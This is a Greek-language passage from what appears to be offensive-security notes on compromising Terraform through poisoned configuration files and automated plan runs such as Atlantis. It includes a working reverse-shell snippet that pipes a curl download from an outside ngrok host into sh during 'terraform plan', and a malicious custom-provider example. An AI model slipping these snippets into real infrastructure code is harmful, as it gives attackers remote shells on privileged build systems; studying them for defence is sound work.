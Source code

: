 Το Terraform **δεν έχει μια πλατφόρμα που να εκθέτει μια ιστοσελίδα ή μια υπηρεσία δικτύου** που μπορούμε να καταγράψουμε, επομένως, ο μόνος τρόπος για να συμβιβαστεί το terraform είναι να **μπορείτε να προσθέσετε/τροποποιήσετε αρχεία διαμόρφωσης του terraform** ή να **μπορείτε να τροποποιήσετε το αρχείο κατάστασης του terraform** (βλ. κεφάλαιο παρακάτω).

Ωστόσο, το terraform είναι ένα **πολύ ευαίσθητο συστατικό** για να συμβιβαστεί, διότι θα έχει **προνομιακή πρόσβαση** σε διάφορες τοποθεσίες ώστε να μπορεί να λειτουργεί σωστά.

Ο κύριος τρόπος για έναν επιτιθέμενο να μπορέσει να συμβιβάσει το σύστημα όπου εκτελείται το terraform είναι να **συμβιβάσει το αποθετήριο που αποθηκεύει τις διαμορφώσεις του terraform**, διότι σε κάποιο σημείο θα **ερμηνευτούν**.

Στην πραγματικότητα, υπάρχουν λύσεις εκεί έξω που **εκτελούν το terraform plan/apply αυτόματα μετά τη δημιουργία ενός PR**, όπως το **Atlantis**:

{{#ref}}
atlantis-security.md
{{#endref}}

Εάν μπορείτε να συμβιβάσετε ένα αρχείο terraform, υπάρχουν διάφοροι τρόποι που μπορείτε να εκτελέσετε RCE όταν κάποιος εκτελεί `terraform plan` ή `terraform apply`.

### Terraform plan

Το Terraform plan είναι η **πιο χρησιμοποιούμενη εντολή** στο terraform και οι προγραμματιστές/λύσεις που χρησιμοποιούν το terraform την καλούν συνεχώς, οπότε ο **ευκολότερος τρόπος για να αποκτήσετε RCE** είναι να βεβαιωθείτε ότι δηλητηριάζετε ένα αρχείο διαμόρφωσης του terraform που θα εκτελεί αυθαίρετες εντολές σε ένα `terraform plan`.

**Χρησιμοποιώντας έναν εξωτερικό πάροχο**

Το Terraform προσφέρει τον [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) που παρέχει έναν τρόπο διεπαφής μεταξύ του Terraform και εξωτερικών προγραμμάτων. Μπορείτε να χρησιμοποιήσετε την πηγή δεδομένων `external` για να εκτελέσετε αυθαίρετο κώδικα κατά τη διάρκεια ενός `plan`.

Η εισαγωγή σε ένα αρχείο διαμόρφωσης του terraform κάτι σαν το παρακάτω θα εκτελέσει ένα rev shell κατά την εκτέλεση του `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
**Χρησιμοποιώντας έναν προσαρμοσμένο πάροχο**

Ένας επιτιθέμενος θα μπορούσε να στείλει έναν [προσαρμοσμένο πάροχο](https://learn.hashicorp.com/tutorials/terraform/provider-setup) στο [Terraform Registry](https://registry.terraform.io/) και στη συνέχεια να τον προσθέσει στον κώδικα Terraform σε ένα feature branch ([παράδειγμα από εδώ](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Ο πάροχος κατεβαίνει στο `init` και θα εκτελέσει τον κακόβουλο κώδικα όταν εκτελείται το `plan`.
